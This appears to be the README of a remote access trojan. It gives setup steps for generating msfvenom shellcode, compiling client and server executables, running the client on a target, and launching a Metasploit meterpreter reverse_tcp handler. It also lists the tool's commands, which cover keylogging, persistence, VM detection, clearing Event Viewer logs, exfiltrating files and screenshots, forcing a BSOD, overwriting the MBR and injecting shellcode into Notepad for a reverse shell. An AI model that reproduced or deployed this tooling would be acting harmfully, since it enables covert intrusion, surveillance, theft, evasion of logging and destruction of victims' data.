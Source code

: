 # Setup

After cloning the whole project and getting inside of the x86 folder:

1. If you want to be able to use inject86, open Client.c and execute the commented msfvenom command at line 59 (Replace the LHOST/LPORT according to your needs), and then replace the contents of the variable ShellcodeX86 at line 61 with the output of the command.

2. You can generate a new certificate to use if you want (a default one was already provided for ease of use). If you generate a new certificate using Setup.sh, you must copy the contents of public.crt, into the variable 'ServerPublicCertPem' in Client.c:
```bash
cd ..
./Setup.sh cert
```

3. You can now compile. Type:
```bash
cd ..
./Setup.sh compile
```

4. If everything went correctly, you should now have 4 executables: 2 clients (x64 and x86), and 2 server executables (x64 and x86). If not, there was an error when trying to compile. Make sure you did everything correctly.

5. You can now provide the IP address of the server from both client and server, by passing an argument:
```bash
Server:
	./Server-x86 start 192.168.1.1

Client (On target):
	Client-x86.exe 192.168.1.1
```

6. Before using 'inject86', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST IP
set LPORT PORT
set payload windows/meterpreter/reverse_tcp
run
```

7. All done. Enjoy!

Info: Fallback shell and startcat have been removed from the x86 version due to some inconsistencies.

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence3 : Uses hardcoded paths to establish persistence

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a 
virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject86 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener
